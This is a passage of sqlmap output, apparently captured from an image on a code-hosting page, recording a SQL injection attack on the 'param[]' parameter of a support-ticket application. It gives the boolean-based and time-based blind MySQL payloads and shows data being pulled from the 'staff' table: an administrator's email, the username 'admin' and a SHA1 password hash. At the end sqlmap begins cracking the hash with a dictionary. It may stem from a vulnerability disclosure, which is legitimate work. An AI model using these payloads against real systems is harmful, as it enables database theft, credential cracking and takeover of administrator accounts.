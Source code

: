 ```bash
    Payload: v=view_tickets&action=ticket&param[]=8&param[]=attachment&param[]=5&param[]=10 AND 2859=2859

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: v=view_tickets&action=ticket&param[]=8&param[]=attachment&param[]=5&param[]=10 AND (SELECT 7344 FROM (SELECT(SLEEP(5)))Tifo)
---
[14:41:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[14:41:39] [INFO] fetching columns for table 'staff' in database 'support'
[14:41:39] [INFO] resumed: 14
...
...
[14:41:53] [INFO] retrieved: support@mysite.com             
[14:41:53] [INFO] retrieving the length of query output
[14:41:53] [INFO] retrieved: 13
[14:41:56] [INFO] retrieved: Administrator             
[14:41:56] [INFO] retrieving the length of query output
[14:41:56] [INFO] retrieved: 1
[14:41:57] [INFO] retrieved: 1
[14:41:58] [INFO] retrieving the length of query output
[14:41:58] [INFO] retrieved: 10
[14:42:01] [INFO] retrieved: 1543429746             
[14:42:01] [INFO] retrieving the length of query output
[14:42:01] [INFO] retrieved: 10
[14:42:03] [INFO] retrieved: 1547216217             
[14:42:03] [INFO] retrieving the length of query output
[14:42:03] [INFO] retrieved: 1
[14:42:04] [INFO] retrieved: 0
[14:42:04] [INFO] retrieving the length of query output
[14:42:04] [INFO] retrieved: 40
[14:42:12] [INFO] retrieved: d318f44739dced66793b1a603028133a76ae680e             
[14:42:12] [INFO] retrieving the length of query output
[14:42:12] [INFO] retrieved: 28
[14:42:17] [INFO] retrieved: Best regards,  Administrator             
[14:42:17] [INFO] retrieving the length of query output
[14:42:17] [INFO] retrieved: 0
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[14:42:18] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                           
[14:42:21] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[14:42:21] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[14:42:21] [INFO] retrieving the length of query output
[14:42:21] [INFO] retrieved: 5
[14:42:23] [INFO] retrieved: admin           
[14:42:23] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[14:42:23] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/opt/tools/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
```